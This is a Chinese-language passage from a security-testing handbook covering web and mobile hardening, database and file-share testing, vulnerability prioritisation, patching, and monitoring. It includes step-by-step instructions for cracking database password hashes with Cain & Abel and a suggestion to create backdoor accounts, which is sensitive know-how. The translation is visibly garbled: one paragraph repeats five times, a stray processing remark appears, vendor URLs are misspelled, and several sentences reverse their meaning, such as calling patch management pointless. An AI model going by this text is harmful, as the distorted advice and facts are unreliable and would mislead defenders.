- >> 将你的 web 应用改为在非标准端口上运行 HTTPS。将默认的 HTTP 端口 80 或 HTTPS 端口 443 改为高端口（如 8877），如果可能，将服务器设置为以非特权用户运行——而非系统、管理员等。

永远、永远不要依赖隐晦性；它并不是万无一的。专业的攻击者可能会确定该系统并非其所声称的模样。尽管如此，即使有反对者，它也比没有好。

第 15 章 Web 应用与移动应用 299

## 部署防火墙

考虑使用额外的控制措施来保护你的 Web 系统，包括以下：

- 基于网络的防火墙、入侵防御系统 (IPS)，它可以检测并阻止针对 Web 应用的攻击。这些工具包括来自 WatchGuard (https://www.watchguard.com) 和 Palo Alto Networks (https://www.paloaltonnetworks.com) 的商业防火墙。
- 基于主机的 Web 应用 IPS，例如 ServerDefender VP (https://www.port80software.com/products/serverdefender/)。
- 来自 Barracuda Networks (https://www.barracuda.com/products/webapplicationfirewall)、Cloudflare (https://www.cloudflare.com/waf/) 和 Fortinet (https://www.fortinet.com/products/web-application-firewall/fortibweb) 等厂商的防火墙。

这些程序可以实时检测 Web 应用某些数据库攻击，并在它们造成伤害之前将其拦截。

## 分析源代码

软件开发是许多软件安全漏洞的起点，本应该是这样，但很少如此。如果你对目前为止的安全测试工作充满信心，你可以深入挖掘以寻找源代码中的缺陷——这些可能是传统扫描器和测试技术无法发现的，尽管这些技术仍然无能为力。不要担心！这个过程比听起来要简单。不，你不需要逐行查看代码发生了什么。你甚至不需要开发经验（尽管它有所帮助）。

你可以使用静态代码分析工具，例如 Visual Code Grepper (https://sourceforge.net/projects/visualcodegrep)、SonarQube (https://www.sonararqube.org) 或 PVS-Studio Analyzer (https://www.viv64.com/en/pvs-studio)。

源代码分析通常能发现传统应用安全测试无法发现的缺陷。如果你想要最全面的测试水平，请两者都做。源代码分析提供的额外检查变得越来越重要。这些领域通常充满了许多软件开发者在学校没有学过的安全漏洞。


根据我使用一些高级源代码分析器的经验，我不认为在这些工具上花费时间和是值得的

第 5 部分 攻击应用程序

这些工具确实可以帮助，特别是当你有一个大型、复杂的应用环境时。Web 应用和移动应用安全的本质在于，如果你能向你的开发者和质量保证分析师证明安全始于他们，你就可以为你所在组织的整体信息安全带来改变。

## 发现移动应用漏洞

除了运行源代码分析器之外，检查移动端的应用程序漏洞也很重要。你需要寻找以下几点，包括：

- 硬编码到应用中的加密数据库密钥。
- 对敏感信息的处理不当，例如将个人可识别信息存储在本地，使用户和其他应用可以访问它。
- 登录弱点，例如能够绕过登录提示。
- 网络通信弱点，例如明文通信或使用过时的协议（如 SSL）。
- 允许弱密码或空密码。

注意，这些检查大多通过手动分析发现，并可能需要无线网络分析器、取证工具和 Web 探测器等工具。你发现它们比别人发现它们要好。

[content]
<!-- no content -->
[/content]
[content]
- >> 测试和利用数据库
- >> 寻找敏感信息
- >> 应对数据库漏洞

## 第 16 章 数据库与存储系统

针对数据库和存储系统的攻击可能非常严重，因为那里是“货物”所在地。数据库系统——如 Microsoft SQL Server、MySQL 和 Oracle——一直潜伏在后台，但它们的漏洞终于走到了前沿。即使是曾声称不可破解的强大 Oracle，也和竞争对手一样受到影响。由于管理数据库的监管要求，几乎没有任何企业不使用某种形式的数据库，无论是内部的还是托管在云端的。

## 选择工具

就像无线网络、操作系统等一样，你需要好的工具来发现安全问题。以下是我最喜欢的测试工具：

- Advanced SQL Password Recovery (https://www.elcomsoft.com/asqlpr.html) 用于破解 SQL Server 密码。
- Cain & Abel (https://www.oxid.it/cain.html) 用于破解数据库密码哈值。
- Nexpose (https://www.rapid7.com/products/nexpose) 用于深度漏洞扫描。
- SQLPinging (https://www.security.com/downloads) 用于定位网络上的 Microsoft SQL Servers，检查 sa 账户的空密码并执行字典攻击。

你可以使用漏洞扫描器（如 Nexpose）配合利用工具（如 Metasploit）来进行你的数据库测试。

## 在网络上寻找数据库

发现数据库的第一步是确定它们位于网络的什么位置。这听起来很奇怪，但许多网络管理员并没有意识到环境中运行着各种数据库。这种情况在用户可以下载并运行的免费 SQL Server 版本中尤为如此。

> 我无法告诉你我经常发现敏感生产数据，如信用卡号和安全码，被使用在广泛开放的数据库中，被好奇的内部人员或已进入网络的外部攻击者利用。


我发现的发现 SQL Server 的最佳工具是 SQLPinging（见图 16-1）。

SQLPinging 甚至可以发现隐藏在个人防火墙后的 SQL Server 实例。这个功能很好，因为 Windows 防火墙在 Windows 7 及更高版本中默认开启。


图 16-1：SQLPing 可以发现缺少 sa 账户密码的 SQL Server 系统。

如果你在环境中使用 Oracle，Finn Finnigan 在 www.petefinnigan.com/tools.htm 上列出了一份非常棒的以 Oracle 为中心的安全工具列表，这些工具可以执行与 SQLPing 类似的功能。

## 破解数据库密码

SQLPing3 也是一个好用的基于字典的 SQL 密码破解程序。如图 16-1 所示，它默认会检查空白的 sa 密码。另一个用于破解 SQL Server、MySQL 和 Oracle 密码哈值的免费工具是 Cain & Abel，见图 16-2。


图 16-2：使用 Cain & Abel 破解 Oracle 密码。

第 16 章 数据库与存储系统 305

你只需加载 Cain & Abel，点击顶部的 Cracker 选项卡，在左下角选择 Oracle Hashes，然后点击顶部的蓝色加号加载用户名和密码哈值以开始破解。你也可以在左下选择 Oracle TNS Hashes，并在使用 Cain 捕获包时从链上获取传输网络底层（Transport Network Substrate）哈值。对 MySQL 密码哈值也可以同样的操作。

商业产品 ElcomSoft Distributed Password Recovery (https://www.elcomsoft.com/edpr.html) 也可以破解 Oracle 密码哈值。如果你有 SQL Server 主 .mdf 文件（由于共享和文件权限较弱，这些文件通常在网络上很容易获取，我在本章后面会概述），可以使用 ElcomSoft 的 Advanced SQL Password Recovery 立即恢复数据库密码。

你可能还会处理一些受保护的旧版 Microsoft Access 数据库文件。不用担心：Advanced Access Password Recovery 工具可以直接处理。目前仍有很多过时或不支持的 Access 版本。运行如 Nexpose 这样的漏洞扫描器来发现缺陷可能会很有帮助。根据发现的结果，你可能就可以使用 Metploit 来演示可能发生的情况。


你可以想象，这些密码破解工具对于演示数据库安全中最基本的弱点非常棒。它们也是强调散落在网络中且不受保护的关键文件存在问题的良好方法。

演示 SQL Server 弱点的另一种方法是使用 SQL Server Management Studio (https://docs.microsoft.com/en-us/sql/ssms/sql-server-management-studio-ssms) 连接到你现在拥有密码的数据库，并设置后门账户或浏览以查看（并展示）可用内容。我遇到的几乎每个服务器系统都有敏感的个人财务或医疗信息可供获取。只需执行如下查询，即可访问任何表中的记录：

```
select * from tablename
```

## 扫描数据库漏洞

正如操作系统和 Web 应用一样，通过正确的工具可以找出某些特定的数据库漏洞。我使用 Nexpose 来发现此类问题如下：

- 缓冲区溢出。
- 权限提升。
- 可通过默认/未保护的账户访问的密码哈值。
- 启用了较弱的身份验证方法。

一个非常优秀的全功能商业数据库漏洞扫描器，用于执行深度检查——包括 SQL Server、Oracle 等处的用户权限审计——是 AppDetectivePRO (https://www.trustwave.com/Products/Database-Security/AppDetectivePRO)。如果你能证明这项投资是合理的，AppDetectivePRO 可以成为你安全工具库的有力补充。


许多漏洞可以从未身份验证的外部人员视角也可以从受信的内部人员视角进行测试。重要的是尽可能地从多个角度审查你数据库的安全性。正如我之前所说的，如果一个数据库存在且可以访问，人们就会去玩弄它。

## 遵循最佳实践最小化数据库安全风险

如果你执行以下操作，保持数据库安全相当简单：

- 在专用服务器（或必要时使用工作站）上运行数据库。
- 检查底层操作系统的安全漏洞。（我分别在第 12 章和第 13 章介绍了 Windows 和 Linux 的操作系统 (OS) 漏洞。）
- 确保你的数据库处于漏洞扫描、补丁和系统加固范围内。
- 寻找并替换（或通过其他方式隔离）过期的数据库系统。它们留在那里的风险实在太大了。
- 要求在每个数据库系统上使用强密码。大多数企业级数据库（如 Oracle 和 SQL Server）允许你使用域验证（如 Active Directory 或 LDAP）将你的域策略和用户绑定，无需管理单独账户。
 使用 使用适当的文件和共享权限来防范。

第 16 章 数据库与存储系统 307

- 在开发或质量保证等环境中脱敏生产数据。
- 检查 Web 应用是否存在 SQL 注入及相关的输入验证漏洞。（Web 安全见第 15 章。）

## 开放存储系统

攻击者正在寻找存储相关的攻击手段，但你首先要弄清楚哪些可用。最好的方法是使用端口扫描器，理想情况下使用如 Nexpose 或 LangGuard 这样的安全工具。此外，考虑到许多存储服务器内置了 Web 服务器，你可以使用 Acunet Vulnerability Scanner 和 Netscanner 来发现 Web 漏洞。

> 一个经常被忽视的存储漏洞是许多存储系统可以从非军事特区 (DMZ) 和内部区域访问。这种漏洞对网络双方都是风险。请务必手动检查是否从内部网络访问 DMZ，反之亦然。

许多误区认为加密等同于安全，我确更多的攻击将针对关键文件。与数据库一样，几乎每家企业都有无法损失的敏感信息。

## 选择工具

我们常用的测试工：

- **nmap** (http://nmap.org) 用于端口扫描以查找活动主机。
- **SoftPerfect Network Scanner** (https://www.softperfect.com/products/networkscanner) 用于查找开放共享。
- **FileLocator** (https://www.mythic.com) 用于查找特定的文件和信息。
- **Nexpose** 用于深度扫描。

## 在网络上寻找存储系统

寻找存储相关的漏洞，你首先要弄清楚哪些可用。最好的方法是使用端口扫描器，理想情况下使用如 Nexpose 或 LangGuard 这样的安全工具。


如图 16-3 所示，Network Scanner 允许你对所有设备或简单文件夹执行安全和安全权限扫描。我建议在身份验证部分选择 Specific Account，然后点击 Manager，以便输入一个具有普通用户权限的网络域账户。这种技术提供了良好的访问权限，以确定哪些共享是可访问的。


当网络扫描器（Network Scanner）完成扫描时，列出的共享就是需要关注的共享。在进行安全评估时，我很少不遇到某些对 Windows Everyone（所有人）组开放的共享文件夹。但常见的是，搜索这些共享内部的目录和文件，发现登录用户可以打开、修改、删除并随心所欲地进行任何操作。这对于问责制又如何？

## 在网络文件中根除敏感文本

当你发现开放的网络共享时，请扫描存储在 `.pdf`、`.docx` 和 `.xlsx` 文件中的敏感信息。这个过程就像使用 FileLocator Pro 这样的文本搜索工具一样简单。或者，你也可以使用 Windows 资源管理器或 Linux 中的 `find` 命令来搜索敏感信息，但对我来说，那个过程太慢且太繁琐了。

你会在用户的桌面、服务器共享等等处发现的未保护内容感到惊讶，例如以下内容：

- 员工健康记录
- 客户信用卡号
- 公司财务报告
- 源代码
- 主数据库文件

防无上限。此类敏感信息应该通过良好的业务实践来保护，并且受到州、联邦和国际法规的约束，因此请确保你找到并对其进行安全防护。

当你以普通用户身份登录本地系统或域时，对敏感文本进行搜索——**不要**以管理员身份登录。这种做法可以让你更好地看到哪些普通用户未经授权访问你正在保护的敏感文件和共享。使用 FileLocator Pro 等基础文本搜索工具搜索以下文本字符串：


- DOB（出生日期）
- SSN（社会安全号码）
- License（驾照信息）
- Credit or CCV（信用卡号）

在寻找敏感信息时，不要忘记你的移动设备。从笔记本电脑到 USB 驱动器再到未受保护的硬盘，一切对坏人来说都是可乘的。一个放置错误或被盗的系统可能会导致昂贵的泄露。对于 OneDrive 和 Sharefile 等云文件共享服务也是如此。


信息泄露的可能性是无限的。从基础开始，只窥视你可能知道其中含有某些信息的常见文件。将搜索限制在这些文件中将节省你大量时间：

- .txt
- .doc 和 .docx
- .rtf
- .xls 和 .xlsx
- .pdf

图 16–4 显示了使用 FileLocator Pro 进行的基础文本搜索。注意这些位于服务器不同部分的文件。

FileLocator Pro 还可以搜索 `.pdf` 文件内部的内容以揭示敏感数据。

为了加快处理过程，请使用 Spirion 的 Sensitive Data Manager (https://www.spirion.com)。该产品以前名为 IdentityFinder，现在已并入公司的企业级数据发现平台，是扫描存储设备以寻找敏感个人身份信息（PII）时所需的工具。它还可以搜索 PDF 等二进制文件内部的内容。


图 16-4：使用 FileLocator Pro 在未保护的共享上搜索敏感文本。

对于第二轮测试，你可以在管理员身份登录时进行搜索。你可能会发现散落在各处的大量敏感信息。起初这可能看起来毫无价值，但它可能会凸显存储在不应存放之处或网络管理员不应具有访问权限的敏感信息。

> 测试高度取决于时间、对正确关键词的搜索以及对网络系统的观察。你可能无法根除每一个敏感信息，但这种努力显示了问题所在，这有助于你证明需要更强的访问控制以及更好的 IT 和安全管理流程。


## 遵循最佳实践降低存储安全风险

就像数据库安全一样，存储安全并非大脑手术。如果执行以下操作，保持系统安全也同样简单：

- 检查底层操作系统的安全漏洞。我在第 12 和第 13 章中涵盖了 Windows 和 Linux 的操作系统漏洞。
- 确保你的网络存储（SAN 和 NAS 系统）纳入补丁和系统加固的范围。
- 在每个存储管理界面上要求强密码。
- 使用适当的文件和共享权限来隔绝窥探者。
- 教育你的用户如何存储敏感信息以及处理不当的风险。
- 在将敏感生产数据用于开发或质量保证之前，使用专为此目的工具进行去标识化处理。
- 使用网络访问控制列表或防火墙（例如来自 Fortinet (https://www.fortinet.com) 或 WatchGuard Technologies (https://www.watchguard.com) 的产品），确保只有授权的人和系统可以访问。

# CHAPTER 16 数据库与存储系统 311


为了确保你看到的是你认为你看到的，并且你看到的内容是有效的。

在测试的规划阶段，就特定的报告格式达成共识也是好主意。这有助于确保从一开始到最终的交付物，所有人都步调一致。


## 漏洞优先级排序

对你发现的安全漏洞进行优先级排序至关重要，因为许多问题是无法修复的，另一些问题可能不值得修复。由于各种技术原因，你可能无法消除漏洞，也可能无法负担修复漏洞的成本。或者，简单来说，你的业务可能有特定程度的风险容忍度。每种情况都是不同的。你需要确保收益对得起投入和成本。

另一方面，花费几周的开发时间来修复跨站脚本（XSS）和 SQL 注入漏洞可能是非常值得的，特别是如果你最终遭受了第三方的指责或丢失了潜在客户。对于不包含敏感信息的移动设备也是如此。你需要仔细研究每个漏洞，确定业务风险，并权衡该问题是否值得修复。

> 修复你发现的每一个漏洞是可能的——或者不值得尝试。仔细分析每个漏洞，并确定你的最坏情况。例如，如果你的 Web 接口使用了跨站请求伪造（CSRF），也许你只需要盲目地信任互联网上那些有偏见的研究人员/黑客，让他们指导你关注精力的方向，尽管他们对你的业务一无所知。（开玩笑的。）另一个例子是，FTP 可能运行在许多内部服务器和面向外部的系统中。确定业务风险。对于许多安全缺陷，你会发现并没有风险。


- 漏洞利用的可能性：你正在分析的特定漏洞被黑客、恶意用户、恶意软件或其他威胁利用的概率有多大？
- >> 利用的影响：如果你正在分析的漏洞被利用，会产生多大的破坏？

许多人经常会跳过这些考虑，假设每个发现的漏洞都必须解决。这是一个巨大的错误。发现漏洞并不意味着它适用于你的应用程序和环境。如果你抱着“无论情况如何必须解决每个漏洞”的心态去做，你将浪费大量的时间、精力和金钱，并可能导致你的安全评估计划长期失败。


然而，注意不要在某个方向偏得太远。许多漏洞表面看起来并不严重，但如果被利用可能会让你的组织陷入困境。深挖，并运用常识。


对漏洞进行排序，使用高、中、低等标准或 1-5 分的评分（其中 1 为优先级最低，5 为优先级最高）对每项考虑因素进行评分。表 17-1 显示了一个示例表格以及每个类别的代表性漏洞。

警告

提示

## 表 17-1

| 漏洞优先级排序 | 高可能性 | 中等可能性 | 低可能性 |
| :--- | :--- | :--- | :--- |
| 高影响 | 存储在未加密笔记本电脑上的敏感信息 | 在现场提取的未加密且受密码保护的磁带备份 | 内部 SQL Server 系统没有管理员密码 |
| 中等影响 | 包含敏感信息的未加密邮件 | 未加密且未密码保护的现场备份 |  Windows  漏洞 |
| 低影响 | FTP 可能运行在许多内部服务器和面向外部的系统中 |  Windows 漏洞 | 网站上使用的弱加密算法 |

漏洞排序，使用高、中、低等标准或 1-5 分的评分（其中 1 为优先级最低，5 为优先级最高）对每项考虑因素进行评分。表 17-1 显示了一个示例表格以及每个类别的代表性漏洞。

（此处为原文重复内容，已根据要求处理）

为了确保你看到的是你你认为有效的有效的

部分 6 测试 测试）

## 创建报告

你可能需要将测试结果组织成管理人员理解的文档，人员需要理解的。每个报告应包含以下信息：
- 测试的日期。
- 执行了哪些测试。
- 发现的漏洞的总结。
- 需要解决的漏洞优先级排序列表。
- 针对漏洞的建议措施。

你可能需要将测试结果组织成管理人员理解的文档，人员需要理解的。每个报告应包含以下信息：
- 测试的日期。
- 执行了哪些测试。
- 发现的漏洞的总结。
- 需要解决的漏洞优先级排序列表。
- 针对漏洞的建议措施。

你可能需要将测试结果组织成管理人员理解的文档，人员需要理解的。每个报告应包含以下信息：
- 测试的日期。
- 执行了哪些测试。
- 发现的漏洞的总结。
- 需要解决的漏洞优先级排序列表。
- 针对漏洞的建议措施。

部分 6 测试的后续

第 18 章 修复你的漏洞

你可能需要将测试结果组织成管理人员理解的文档，人员需要理解的。每个报告应包含以下信息：
- 测试的日期。
- 执行了哪些测试。
- 发现的漏洞的总结。
- 需要解决的漏洞优先级排序列表。
- 针对漏洞的建议措施。

你可能需要将测试结果组织成管理人员理解的文档，人员需要理解的。每个报告应包含以下信息：
- 测试的日期。
- 执行了哪些测试。
- 发现的漏洞的总结。
- 需要解决的漏洞优先级排序列表。
- 针对漏洞的建议措施。

在完成测试后，你想要走向更安全的道路。但你发现了一些安全漏洞——需要解决的问题（希望不要太多！）。在它们被利用之前修复这些漏洞需要一些汗水。你可能需要制定你的计划，并决定优先处理哪些安全漏洞。可能需要一些补丁，甚至是系统加固。你可能需要购买新的安全技术，并可能想要重新评估你的网络设计和安全基础设施。我在本章中涉及了这些关键领域。

## 将你的报告转化为行动

首先要解决的安全漏洞似乎显而易见，但答案可能并不明确。保护最终报告防止其落入未经授权的人员手中。安全评估报告及相关数据落在竞争对手、黑客或恶意内部人员手中可能会给组织带来麻烦。以下是防止此类访问的某些方法：

- 仅向有业务需要的人员交付报告和文件。
- 如果你通过电子邮件发送最终报告，请加密所有附件，或通过 OneDrive Business、Google Drive 或 ShareFile 等安全文件共享服务发送报告。

在审查发现的漏洞时，考虑以下变量：

- 受影响系统有多关键
- 涉及哪些敏感信息或业务流程


-   漏洞是否可以修复
-   修复漏洞的难易程度
-   你是否可以将系统下线以修复问题
-   购买新硬件或软件或重新设计业务流程以填补漏洞需要投入的时间、资金和精力

在第 17 章中，我涵盖了确定安全问题重要性和紧迫性的基本问题。你还应该从时间管理的角度来看待安全，并处理那些既重要（高影响）又紧迫（高概率）的问题。你可能不想尝试修复那些仅具有高影响或仅高概率的漏洞。你可能拥有一些高影响但可能永远不会被利用的漏洞。同样，你可能拥有某些被利用概率很高的漏洞，但即使被利用了，对你的业务或工作也不会产生多大影响。这种人类分析类型和视角有助于许多人从“扫描并运行”的评估（通常是以合规性法规为名进行的）中脱颖而出，并让你在未来一段时间内保有一份饭吃！

优先关注回报最高的任务——即那些高影响且高概率的任务。这些任务可能只是你漏洞中的少数部分。在修补了最关键的安全漏洞后，当时间和资金允许时，你可以去处理最不、最不紧迫的任务。在修补了 Web 中的 SQL 注入和重要服务器缺失补丁等关键漏洞后，你可能希望为备份配置密码（如果没有强加密的话），以防你的备份落入他人之手时引起他人注意。

## 为了追求完美的补丁

你是否觉得你一直在通过修补系统来修复安全漏洞？如果你的答案是肯定的，那很好；至少你在付诸行动了！如果你确定可以用正确的方法修补系统，但找不到时间去执行，那么这项工作就在你的关注范围内。许多 IT 专业人员及其经理在发生泄露之前根本不会考虑修补系统。（例如，参考[威信数据泄露调查报告](https://www.verizonenterprise.com/verizon-insights-lab/dbir/) 中的研究。）补丁管理对于所有行业的组织来说都是一个重大的安全失败。如果你正在阅读这本书，你显然担心安全，并且（我希望）已经度过了不完善的补丁管理阶段。

## 第 6 部分 安全测试后的后续

无论你做什么、选择何种工具，以及哪种程序在你的环境中效果最好，请保持你的系统已打补丁！这条规则适用于操作系统；Web 服务器；数据库；移动应用程序；甚至是你网络防火墙、路由器和交换机上的固件。特别重要的是来自 Oracle (Java) 和 Adobe (Reader、Flash 等) 等供应商的第三方软件补丁。这些补丁比大多数补丁更容易被忽视，它们造成了未被解决的风险。

打补丁是可以避免的但也是不可避免的。消除补丁需求的唯一方法是从一开始就开发安全软件，但这短期内不会发生，甚至永远不会发生。软件太复杂，无法完美。大部分安全事件可以通过良好的补丁实践来预防，因此你完全没有理由建立一套完善的补丁管理流程。

## 补丁管理

如果你跟不上所有系统如如其来的安全补丁，不要绝望；你仍然可以控制这个问题。以下是我应用补丁以保持系统安全的几原则：

-   确保所有参与组织系统补丁的人员和部门达成共识并遵循相同的程序。

-   为这些关键流程建立记录程序：
    - 从供应商处获取警（包括第三方补丁）
    - 评估哪些补丁影响了你的系统
    - 确定何时应用补丁

-   在将补丁应用到生产服务器之前，制定策略并建立测试补丁的程序。在工作站上应用后测试补丁并不那么重要，但服务器是另一回事。许多补丁具有未说明的功能和随之意之外的副作用，我经历过这些。未经测试的补丁等同于邀请系统终止。

## 补丁自动化

接下来的章节描述了你可以使用的各种补丁部署工具，以减轻跟踪补丁的负担。

## 商业工具

我推荐使用健壮的补丁自动化应用程序，特别是涉及以下因素时：

-   大型网络。
-   具有多个操作系统的网络（Windows、Linux、Mac OS 等）。
-   大量的第三方软件应用程序，如 Adobe 和 Java。
-   电脑数量超过几十台。

查看一下这些补丁自动化解决方案：

-   Ecora Patch Manager (www.ecora.com/products/patchmanager.asp)
-   GFI LangGuard (www.gfi.com/products-and-solutions/network-security-solutions/gfi-langguard)
-   PDQ Deploy (https://www.pdq.com/pdq-deploy)

## 免费工具

使用这些免费工具帮助自动补丁：

-   Windows Server Update Services (https://technet.microsoft.com/en-us/library/cc539281.aspx 或 System Center Configuration Manager (https://www.microsoft.com/en-us/cloud-platform/system-center-configuration-manager/))
-   内置在 Microsoft Windows 操作系统中的 Windows Update。
-   Baseline Security Analyzer (https://www.microsoft.com/en-us/download/details.aspx?id=7558)。
-   基于 Linux 的系统的内置补丁工具（例如 Yellowdog Updater, Modified (yum) 和 YaST Online Update）。

## 加固你的系统

除了修补你的系统外，你还必须确保你的系统针对补丁无法修复的安全漏洞进行了加固（锁定）。我发现，许多人止步于打完补丁后就停止了，认为他们的系统是安全的，但事实并非如此。多年来，我看到网络管理员忽略了国家标准与技术研究院计算机安全中心 (http://csrc.nist.gov/publications/Pubs.html) 和互联网安全中心 (www.cisecurity.org) 等机构的建议固化实践。然而，我相信加固防御并非万无一失。因为每个系统和每个组织的需求都不同，没有万能的解决方案，所以你必须取得平衡，不要过度依赖任何方案。


**记住**

应用补丁后，对系统进行漏洞扫描以确认补丁生效。

这本书介绍了你可以针对网络、计算机、甚至物理系统和人员实施的加固措施。我发现这些加固措施效果最好。

实施基本的安全实践至关重要。无论是在网络上安装防火墙，还是通过 Windows 目录 GPO 要求用户使用强密码，如果你想获得任何安全性，必须解决基础问题。除了补丁之外，如果你遵循我记录的加固措施，增加互联网上免费提供的网络系统（路由器、服务器、工作站等）安全实践，并进行持续的安全测试，你就可以放心确保组织信息的安全。

## 付出

我曾参与过一个涉及 10,000 多台感染针对恶意软件的 Windows 服务器和工作站的应急响应项目。高级恶意软件已经立足。该企业早期发现了感染，并认为 IT 团队已经控制了局面。时间流逝，企业在一年后才发现他们并没有。恶意软件报复性地回归，以至于他们的整个网络基本上处于外国国家支持的犯罪黑客的监视之下。

数十人花费数小时找到问题根源后，确定 IT 部门在修补和加固系统方面没有做到应该做的。此外，IT 部门与包括安全、帮助台和业务运营在内的部门之间发生了严重的沟通中断。这个“为时已晚”的案例让一家大企业陷入了巨大的困境。教训是，安全性的系统会给你的业务带来巨大的负担。


## 评估你的安全基础设施

通过以下方式审查你的整体安全基础设施，可以为你的系统提升空间：

- **查看你的整体网络是如何设计的。** 考虑组织方面的问题，例如是否制定、维护或认真对待相关政策。物理方面的问题同样重要。确定管理层是否对信息安全和合规性表示认可，还是他们仅仅将其视为不必要的支出或开展业务的障碍。

- **利用你从书中安全测试中收集的信息绘制你的网络图。** 更新现有的文档是一项重大任务。列出 IP 地址、运行的服务以及你发现的任何内容。画出网络拓扑图。当你能够操作这些信息时，评估网络设计和安全问题会容易得多。我更倾向于使用 Microsoft Visio 或 Cheops-ng (http://cheops-ng.sourceforge.net) 等技术绘图程序来创建网络拓扑图，但这并非必须。你可以像许多人那样在白板上画地图，这完全没问题。

确保在网络变化或每每年更新一次时更新你的图表。

- **考虑你修复漏洞和提高组织整体安全的方法。** 你是否将所有精力都集中在边界上，而不是采用分层安全方法？思考商店和银行是如何受到保护的。监控摄像头聚焦于收银台、柜台电脑和周围区域——而不仅仅是停车场或入口。从深度防御的角度来看安全。确保当某项措施失效时，有若干层安全措施到位，以便攻击者可以通过其他障碍实施成功攻击。

- **从业务更高的层次考虑安全策略和业务流程。** 记录已实施了哪些安全策略和程序，以及它们是否有效。确定在安全监督和执行方面存在哪些风险。没有任何组织能免于这一领域的差距。观察你组织内部整体安全文化，看看从外人的视角来看是什么样的。从内部人员的视角来看待。了解客户或业务伙伴对你组织处理其敏感信息的看法。我可以百分之百确定，在安全的软方面，某些方面——可能是几个方面——是可以改进的。


加强你的安全不仅仅是打补丁和其他技术安全控制。有时，你的 IT 和安全管理计划需要进行调整。有时，你需要开启新工作。有时，你只需停止做某些事情。多年来，我写了大量关于 IT 和安全计划的（不）管理的文章，你可以在我的网站 https://www.principlelogic.com/management.html 上找到其中大部分内容。


从高层次和非技术的角度来看你的安全，会让你对安全漏洞和整体业务风险产生全新的视角。这个过程需要时间和精力的，但在你建立安全基准之后，管理新的威胁和漏洞变得简单得多。

# 第 19 章
管理安全流程

信息安全是一个持续的过程，你必须随着时间的推移有效地管理才能成功。这种管理超越了定期应用补丁和加固系统。反复执行你的安全测试至关重要；安全漏洞会不断涌现。安全测试是你整体信息安全的快照，因此你必须不断进行测试以跟上最新问题。持续的尽职不仅是为了遵守各种法律法规，还为了最大限度地减少与信息系统相关的业务风险。

# 自动化安全评估过程

你可以自动运行书中提到的大部分以下安全测试：

- Ping 扫描和端口扫描，以显示哪些系统是用的以及运行了什么（这是一个巨大的疏忽，通常是更大安全问题的开始）。

- 密码破解测试，尝试访问外部 Web 应用程序、远程访问服务器等。

- 针对缺失补丁、错误配置和可利用漏洞的漏洞扫描。

- 漏洞的利用（至少在某种程度上），


你必须拥有正确的工具来自动化这些测试，例如：

- 一些常用工具可以定期运行扫描并为你生成报告，几乎完全不需要人工干预——只需在前期进行一些设置和时间安排即可。这就是为什么我喜欢许多商业化且大多数自动化的安全工具，例如 Nexpose 和 Acunetix Vulnerability Scanner。这些工具提供的自动化通常有助于证明其价格的合理性，特别是因为你不需要在凌晨 2 点或 24 小时待命。

- 像 Nmap、John the Ripper 和 Aircrack-ng 这样的独立安全工具很棒，但它们还不够。你可以编写脚本，或在 Windows 系统上使用任务 Scheduler和 AT 命令，在 Linux 系统上使用 cron 任务，但仍然需要手动步骤和人类智能。

这些工具和其他工具的链接位于附录中。


某些安全测试，如新系统的枚举、社会工程学和未经授权的访问是无法自动化的。


即使是最聪明的系统也无法完成一切。安全需要技术知识、经验和老办法。

## 监控恶意使用

监控安全事件对于持续的努力至关重要。监控可以像每天监控关键服务器一样基础。与其让你每天都花点时间——比如早晨的第一件事——去检查昨晚的日志文件，你真的想让自己或别人遭受这种折磨吗？

- 在可能和合理的情况下启用系统日志。你不需要寻找那些明显的事件，例如日志失败、策略更改和未经授权的访问。
- 通过网络或云服务器使用 syslog 记录安全事件。尽可能不要将日志保存在本地主机，防止坏人篡改日志以掩盖踪迹。


## 第 6 部分 安全测试后续

监控安全事件的问题在于人类认为它枯燥且难以执行。每天你可能都要花时间——比如每天早晨——检查日志文件。

手动筛选日志文件可能不是最好的方法。考虑以下缺点：

- 在日志文件中发现关键事件很难，甚至不可能。任务对于普通人来说太乏味了。
- 根据你使用的日志和安全设备的类型，你可能检测不到某些安全事件，例如 IPS 规避技术和通过允许端口执行的攻击。


以下是解决监控困境的解决方案：

- 购买事件日志系统。有低价且有效的解决方案，例如 GFI EventsManager (www.gfi.com/products-and-solutions/network-security-solutions/gfi-eventsmanager)。通常，低价事件日志系统只支持一个平台：Microsoft Windows 是常见的。高级解决方案如 ArcSight Data Platform (https://software.microfocus.com/en-us/products/siem-data-collection-log-management-platform.overview) 提供跨平台的日志管理和事件关联，帮助你追踪安全问题的源以及事件期间影响的各种系统。
- 将安全监控外包给云端的第三方托管安全提供商 (MSSP)。互联网潮期间存在许多 MSSP，但现在只剩了一个。价值在于外包


安全监控是指这些公司通常拥有你可能负担不起、更无法维护的设施和工具。MSSPs（托管安全服务提供商）还有全天候工作的分析师，他们可以与你分享从其他客户那里获得的安全经验和知识。

当这些云服务提供商发现安全漏洞或入侵时，他们通常会立即处理问题，而且通常不需要你的参与。我建议检查第三方及其提供的服务是否可以为你腾出一些时间和资源，以便你能够专注于其他事情。只是不要完全依赖他们的监控工作。云服务提供商在捕获内部滥用、社会工程学攻击以及通过安全会话（如 HTTPS）进行的 Web 应用程序漏洞利用方面可能会遇到困难。你仍然需要参与其中。

## 外包安全评估

外包安全评估非常流行，是组织获取其安全态势中立第三方角的绝佳方法。外包允许你建立一个制衡体系，这是客户、业务伙伴、审计人员和监管机构希望看到且往往是要求的。

外包漏洞测试和渗透测试并不便宜。根据所需的测试类型，许多组织花费数万美元甚至更多。然而，考虑到时间、工具以及任何必要的培训，自己完成所有工作也相当昂贵。很有可能，自己做也不如雇佣服务那样有效！通过全新的视角获得中立的观点可以发现你从未想过的问题，因为你曾只看到树木，看不到森林。


涉及大量机密信息，因此你必须信任你的顾问和供应商。在寻找独立专家或供应商建立合作伙伴时，请考虑以下问题：

- 你的安全提供商是站在你这一边的，还是主要考虑他们自己？
- 提供商是在试图寻找你的安全缺陷以便向你推销产品，还是中立的、仅专注于安全评估工作？许多提供商试图通过推荐自己的产品和服务或你与其合作伙伴关系的供应商的产品，从这笔交易中多赚一些钱，而这些产品和服务对你的需求来说可能并不是必须的。想象一个房屋检查员告诉你，他可以修复他发现的所有问题。确保任何潜在的利益冲突都不会对你的预算和业务产生不利影响。

- **提供商是否提供其他 IT 或安全服务，还是它仅专注于安全？** 让信息安全专家为你进行这项测试可能比与 IT 组织合作更好。毕竟，你不会请一个公司律师来帮你处理专利，请一个全科医生来手术，或请一个修理工来修理你的房子。

